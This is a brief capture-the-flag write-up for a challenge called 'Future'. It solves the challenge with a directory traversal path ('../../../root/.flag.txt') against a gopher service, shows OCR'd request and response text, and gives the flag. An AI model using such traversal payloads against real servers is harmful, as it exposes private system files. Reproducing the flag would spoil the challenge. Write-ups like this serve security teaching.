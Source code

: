 # Future
> You are not allowed to escalate this problem! the root cause as usual is some kind of validation failure, may we have this issue in the near future?

## About the Challenge
We need to pentest the gopher protocol to obtain the flag

## How to Solve?
The gopher protocol is vulnerable to `Directory Traversal` attack, where we can read the flag by accessing `../../../root/.flag.txt`


[Image extracted text: Request
Response
Pretty
Raw
Hex
In
=
Pretty
Raw
Hex
Render
GET
1 .
root/flag
txt HTTP/1.1
HTTP/1.0
200
OK
2
Host:
go.ctf
site:10070
2
Last-Modified: Sun,
15
Oct
2023
18:38:36
GMT
3
Cache-Control:
max-age-0
3 Content-Type:
text/plain
Upgrade-Insecure-Requests
5
User-Agent:
Mozilla/5 .0
(Windows
NT
10.0;
Win64;
X64)
5
EKO{root_was_pwn3d! }
AppleWebKit
537.36
(KHTML ,
like
Gecko)
Chrome/118. 0.5993.90
6
Safari/537
36
Accept:
text/html,application/xhtml-xml,application/xml;q=0.9, image/avif ,
image/webp
image/apng,*/*;q=0.8,application/signed-exchange;v-b3;
q=0.7
Accept-Encoding
gzip,
deflate,
br
Accept-Language
en-US, en;q=0.9
If-Modified-Since:
Tue ,
31
Oct
2023
04:00:11
GMT
10
Connection:
close
11
12]


```
EKO{r00t_was_pwn3d!}
```